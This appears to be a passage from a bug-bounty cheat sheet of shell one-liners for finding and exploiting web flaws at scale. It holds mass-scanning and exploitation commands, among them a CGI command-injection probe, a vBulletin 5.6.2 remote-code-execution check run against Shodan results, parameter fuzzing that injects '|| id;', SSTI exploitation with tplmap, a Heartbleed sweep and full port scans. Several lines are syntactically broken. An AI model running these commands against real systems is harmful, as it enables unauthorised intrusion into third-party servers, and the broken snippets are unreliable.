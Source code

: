 ```
cat targets.txt | httpx -path "/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id" -nc -ports 80,443,8080,8443 -mr "uid=" -silent 
```
### vBulletin 5.6.2
```
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
```
subfinder -d target.com | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt; ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```
-----------
## JS Files:
### Find JS Files:
```
gau --subs target.com |grep -iE '.js'|grep -iEv '(.jsp|.json)' >> js.txt
```
```
assetfinder target.com | waybackurls | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```
### Hidden Params in JS:
```
cat subdomains.txt | gauplus -subs -t 100 -random-agent | sort -u --version-sort | httpx -silent -threads 2000 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```
### Extract sensitive end-point in JS:
```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
-------------------------
### SSTI:
```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```
---------------------------
## HeartBleed
```
cat urls.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line; safe; done
```
------------------
## Scan IPs
```
cat my_ips.txt | xargs -L100 shodan scan submit --wait 0
```
## Portscan
```
naabu -l targets.txt -rate 3000 -retries 3 -warm-up-time 0 -rate 150 -c 50 -ports 1-65535 -silent -o out.txt
```